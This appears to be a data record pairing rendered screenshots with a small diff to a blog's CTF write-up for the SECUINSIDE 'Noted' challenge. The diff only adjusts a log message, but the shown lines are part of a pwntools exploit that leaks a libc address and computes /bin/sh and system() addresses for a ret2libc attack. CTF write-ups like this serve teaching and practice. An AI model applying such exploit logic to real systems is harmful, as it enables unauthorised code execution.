

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2016-07-10-SECUINSIDE-Noted.md, in a window 1280 px wide and 1400 px high, scrolled down 5012 px. Shown: the part 152-1099 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

```diff
--- a/_posts/2016-07-10-SECUINSIDE-Noted.md
+++ b/_posts/2016-07-10-SECUINSIDE-Noted.md
@@ -277,7 +277,7 @@ def edit_note(title):
   leak = r.recv(0x4cc)
   libc_addr = u32(r.recv(4)) - 0x00018637 # local 0x19af3
   leak = r.recv()
-  log.info("libc addr" + hex(libc_addr))
+  log.info("libc addr: " + hex(libc_addr))
   bin_sh = libc_addr + 0x15909f     # local 0x16084c remote 0x15909f
   system_addr = libc_addr + 0x0003a920  # local 0x40310 remote 0x3a920
   log.info("/bin/sh at: " + hex(bin_sh))
```
Also changed, not shown: other parts of _posts/2016-07-10-SECUINSIDE-Noted.md (+1 -1 lines).
